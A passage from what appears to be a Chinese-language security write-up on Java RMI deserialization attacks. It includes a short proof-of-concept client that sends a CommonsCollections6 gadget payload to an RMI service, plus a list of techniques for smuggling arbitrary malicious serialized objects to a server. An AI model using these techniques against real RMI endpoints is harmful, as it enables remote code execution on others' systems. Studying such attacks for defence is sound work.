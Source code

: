 ```java
/**
 * @author : p1n93r
 * @date : 2021/8/6 18:45
 */
public class Attack {
    public static void main(String[] args)throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        HelloService hello = (HelloService)registry.lookup("hello");
        hello.poke(CC6.getPayload());
    }
}
```

![image-20210807203321837](/media/image-20210807203321837.png)

对于非基本参数类型的形参（常见的就是String类型），我们如何进行攻击呢？

我们攻击者作为Client，可以随意修改Client达到发送任意类型的数据给Server进行反序列化的目的。存在如下几个常见的手法：

- 复制 `java.rmi` 包下的代码，并且修改里面的代码从而使得支持发送任意类型的数据；
- 通过debug模式，在对象被序列化之前，替换对象为恶意的对象；
- 使用 `javassist` 修改发送数据的代码；
- 直接修改网络数据流，将恶意序列化数据注入；

这里比较方便和友好的操作就是使用第二种方式。并且还有一个很友好的工具提供给我们使用：[YouDebug](http://youdebug.kohsuke.org/user-guide.html)

当我们Client进行RMI调用的时候，底层是通过 `java.rmi.server.RemoteObjectInvocationHandler#invokeRemoteMethod()` 来发送数据给远程Server的，首先看到代码：

```java
private Object invokeRemoteMethod(Object proxy,
                                  Method method,
                                  Object[] args)
    throws Exception
{
    try {
        if (!(proxy instanceof Remote)) {
            throw new IllegalArgumentException(
                "proxy not Remote instance");
        }
        return ref.invoke((Remote) proxy, method, args,
                          getMethodHash(method));
    } catch (Exception e) {
        if (!(e instanceof RuntimeException)) {
            Class<?> cl = proxy.getClass();
            try {
                method = cl.getMethod(method.getName(),
                                      method.getParameterTypes());
            } catch (NoSuchMethodException nsme) {
                throw (IllegalArgumentException)
                    new IllegalArgumentException().initCause(nsme);
            }
            Class<?> thrownType = e.getClass();
            for (Class<?> declaredType : method.getExceptionTypes()) {
                if (declaredType.isAssignableFrom(thrownType)) {
                    throw e;
                }
            }
            e = new UnexpectedException("unexpected exception", e);
        }
        throw e;
    }
}
```

